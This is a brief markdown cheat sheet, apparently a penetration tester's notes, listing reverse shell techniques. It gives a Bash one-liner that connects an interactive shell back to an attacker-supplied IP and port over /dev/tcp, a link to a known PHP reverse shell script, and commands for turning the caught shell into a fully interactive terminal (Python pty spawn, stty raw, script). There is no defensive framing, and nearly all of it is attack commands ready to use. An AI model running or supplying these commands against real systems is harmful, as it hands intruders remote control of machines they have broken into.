 # Reverse Shells - Examples

## Bash

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background
	CTRL+Z

	stty raw -echo
	fg
	export TERM=xterm


## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash